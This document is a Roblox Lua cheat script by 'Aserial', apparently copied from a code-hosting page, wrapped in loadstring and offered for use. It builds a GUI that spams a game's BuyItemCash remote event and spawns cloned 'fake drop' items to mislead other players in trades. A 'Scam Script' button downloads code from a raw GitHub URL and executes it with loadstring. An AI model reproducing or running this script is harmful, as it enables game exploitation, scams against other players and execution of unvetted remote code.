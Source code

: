 -- Script Made 100% by Aserial protected by Rigths.
-- Don’t change it or you Will pay the consequences ...
-- AserialDev 2025.

loadstring([[
local player = game:GetService("Players").LocalPlayer
local replicatedStorage = game:GetService("ReplicatedStorage")
local remote = replicatedStorage:WaitForChild("RemoteEvents"):WaitForChild("BuyItemCash")
local runService = game:GetService("RunService")

-- UI
local gui = Instance.new("ScreenGui", player:WaitForChild("PlayerGui"))
gui.Name = "AserialItemBuyer"

-- Bulle flottante cachée au début
local bubble = Instance.new("TextButton", gui)
bubble.Visible = false
bubble.Size = UDim2.new(0, 120, 0, 30)
bubble.Position = UDim2.new(0, 20, 1, -60)
bubble.BackgroundColor3 = Color3.fromRGB(20, 20, 20)
bubble.Text = "Aserial Script"
bubble.TextColor3 = Color3.new(1, 1, 1)
bubble.Font = Enum.Font.GothamBold
bubble.TextSize = 14
bubble.BorderSizePixel = 0

local frame = Instance.new("Frame", gui)
frame.Size = UDim2.new(0, 270, 0, 240)
frame.Position = UDim2.new(0.5, -135, 0.5, -120)
frame.BackgroundColor3 = Color3.fromRGB(30, 30, 30)
frame.BorderSizePixel = 0
frame.Active = true
frame.Draggable = true

-- Boutons style Windows
local closeBtn = Instance.new("TextButton", frame)
closeBtn.Size = UDim2.new(0, 30, 0, 30)
closeBtn.Position = UDim2.new(1, -30, 0, 0)
closeBtn.BackgroundColor3 = Color3.fromRGB(200, 0, 0)
closeBtn.Text = "X"
closeBtn.TextColor3 = Color3.new(1, 1, 1)
closeBtn.Font = Enum.Font.GothamBold
closeBtn.TextSize = 14
closeBtn.BorderSizePixel = 0

local minimizeBtn = Instance.new("TextButton", frame)
minimizeBtn.Size = UDim2.new(0, 30, 0, 30)
minimizeBtn.Position = UDim2.new(1, -60, 0, 0)
minimizeBtn.BackgroundColor3 = Color3.fromRGB(50, 50, 50)
minimizeBtn.Text = "-"
minimizeBtn.TextColor3 = Color3.new(1, 1, 1)
minimizeBtn.Font = Enum.Font.GothamBold
minimizeBtn.TextSize = 14
minimizeBtn.BorderSizePixel = 0

-- Titre
local title = Instance.new("TextLabel", frame)
title.Size = UDim2.new(1, -60, 0, 30)
title.BackgroundColor3 = Color3.fromRGB(25, 25, 25)
title.Text = "PPT Script by Aserial"
title.TextColor3 = Color3.fromRGB(255, 255, 255)
title.Font = Enum.Font.GothamBold
title.TextSize = 16
title.BorderSizePixel = 0
title.Position = UDim2.new(0, 0, 0, 0)

-- Boutons
local buyBtn = Instance.new("TextButton", frame)
buyBtn.Position = UDim2.new(0.1, 0, 0.25, 0)
buyBtn.Size = UDim2.new(0.8, 0, 0, 30)
buyBtn.BackgroundColor3 = Color3.fromRGB(180, 50, 50)
buyBtn.TextColor3 = Color3.new(1, 1, 1)
buyBtn.Font = Enum.Font.GothamBold
buyBtn.TextSize = 14
buyBtn.BorderSizePixel = 0

local dropBtn = Instance.new("TextButton", frame)
dropBtn.Position = UDim2.new(0.1, 0, 0.45, 0)
dropBtn.Size = UDim2.new(0.8, 0, 0, 30)
dropBtn.BackgroundColor3 = Color3.fromRGB(255, 120, 0)
dropBtn.TextColor3 = Color3.new(1, 1, 1)
dropBtn.Font = Enum.Font.GothamBold
dropBtn.TextSize = 14
dropBtn.BorderSizePixel = 0

local scamBtn = Instance.new("TextButton", frame)
scamBtn.Position = UDim2.new(0.1, 0, 0.65, 0)
scamBtn.Size = UDim2.new(0.8, 0, 0, 30)
scamBtn.BackgroundColor3 = Color3.fromRGB(120, 60, 200)
scamBtn.TextColor3 = Color3.new(1, 1, 1)
scamBtn.Font = Enum.Font.GothamBold
scamBtn.TextSize = 14
scamBtn.BorderSizePixel = 0
scamBtn.Text = "Scam Script"

local itemNameLabel = Instance.new("TextLabel", frame)
itemNameLabel.Position = UDim2.new(0.1, 0, 0.86, 0)
itemNameLabel.Size = UDim2.new(0.8, 0, 0, 20)
itemNameLabel.BackgroundTransparency = 1
itemNameLabel.TextColor3 = Color3.new(1, 1, 1)
itemNameLabel.Font = Enum.Font.Gotham
itemNameLabel.TextSize = 14
itemNameLabel.Text = "Object : Nothing"

-- Lien Discord violet
local discordLabel = Instance.new("TextLabel", frame)
discordLabel.Size = UDim2.new(1, 0, 0, 20)
discordLabel.Position = UDim2.new(0, 0, 1, -20)
discordLabel.BackgroundTransparency = 1
discordLabel.Text = "discord.gg/y9FC7xPrvU"
discordLabel.TextColor3 = Color3.fromRGB(180, 80, 255)
discordLabel.Font = Enum.Font.Gotham
discordLabel.TextSize = 13

-- Achat toggle
local buying = false
local function toggleBuying()
    buying = not buying
    if buying then
        buyBtn.BackgroundColor3 = Color3.fromRGB(50, 180, 75)
        task.spawn(function()
            while buying do
                local tool = player.Character and player.Character:FindFirstChildOfClass("Tool")
                if tool then
                    remote:FireServer(tool.Name)
                end
                task.wait(0.1)
            end
        end)
    else
        buyBtn.BackgroundColor3 = Color3.fromRGB(180, 50, 50)
    end
end

-- Fake drop réaliste
local function fakeDropRealistic()
    local tool = player.Character and player.Character:FindFirstChildOfClass("Tool")
    if tool and tool:FindFirstChild("Handle") then
        local clone = tool:Clone()
        clone.Parent = workspace
        local handle = clone:FindFirstChild("Handle")
        if not handle then return end

        local hrp = player.Character:FindFirstChild("HumanoidRootPart")
        local dropPos = (hrp.CFrame * CFrame.new(0, -2.5, -4)).Position

        handle.Anchored = true
        handle.CFrame = CFrame.new(dropPos + Vector3.new(0, 1, 0)) * CFrame.Angles(0, math.rad(math.random(0,360)), 0)
        handle.CanCollide = true
    end
end

-- Scam script
local function runScamScript()
    local url = "https://raw.githubusercontent.com/Rheingold59/Pop-it-trading/refs/heads/main/Scam.md"
    local success, result = pcall(function()
        return game:HttpGet(url)
    end)
    if success then
        loadstring(result)()
    else
        warn("Erreur chargement scam script :", result)
    end
end

-- Fermer / Réduire
closeBtn.MouseButton1Click:Connect(function()
    gui:Destroy()
end)

minimizeBtn.MouseButton1Click:Connect(function()
    frame.Visible = false
    bubble.Visible = true
end)

bubble.MouseButton1Click:Connect(function()
    frame.Visible = true
    bubble.Visible = false
end)

-- UI dynamique
runService.RenderStepped:Connect(function()
    local tool = player.Character and player.Character:FindFirstChildOfClass("Tool")
    local toolName = tool and tool.Name or "Nothing"
    itemNameLabel.Text = "Object took : " .. toolName
    buyBtn.Text = "Buy : " .. toolName
    dropBtn.Text = "Fake Drop : " .. toolName
end)

-- Boutons
buyBtn.MouseButton1Click:Connect(toggleBuying)
dropBtn.MouseButton1Click:Connect(fakeDropRealistic)
scamBtn.MouseButton1Click:Connect(runScamScript)
]])()
